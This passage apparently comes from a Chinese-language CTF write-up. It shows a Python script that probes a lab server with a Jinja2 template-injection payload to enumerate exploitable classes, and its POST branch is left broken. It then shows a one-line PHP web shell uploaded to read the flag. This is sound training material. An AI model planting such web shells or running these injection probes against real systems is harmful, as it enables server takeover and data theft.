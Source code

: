 也可以选择自己写个脚本找到含有危险方法如eval的类

给出我的脚本吧, 没写完也懒得改了, 凑合用了

```python
import requests
import re
url = 'http://192.168.196.125:5000/test?{{().__class__.__base__.__subclasses__()}}'
list = ["warnings.catch_warnings","commands","FileLoader","IncrementalEncoder","IncrementalDecoder","_wrap_close"]
def test(url, choice):
    # url = input()
    if choice == '1':
        print(1)
        req = requests.get(url)
        que = re.findall(r"&lt;class .*?&gt;",req.text)
        # print(req.)
        # print(que)
        for i in range(len(que)):
            for j in list:
                if j in que[i]:
                    print(str(i)+"   "+j)
    elif choice == '2':
        for i in range(200):
            req = requests.post()

if __name__ == '__main__':
    # url = input()
    print("get 1或者是post 2")
    choice = input()
    test(url,choice)
```

找到之后就可以用payload了, 解法不唯一, 能拿到flag就是好方法



## 一句话木马的使用

网页是这样的

![image-20231009153518640](https://cdn.jsdelivr.net/gh/Utahamo/momopic/image2023-9/202310091535670.png)

我们可以上传文件, 这里上传一句话木马之类的, shell.php

我用的是直接执行系统命令的shell

```php
<?=shell_exec($_REQUEST['cmd']);?>
```

执行命令, ls, cat /flag, 拿到flag



## ez_unserialize
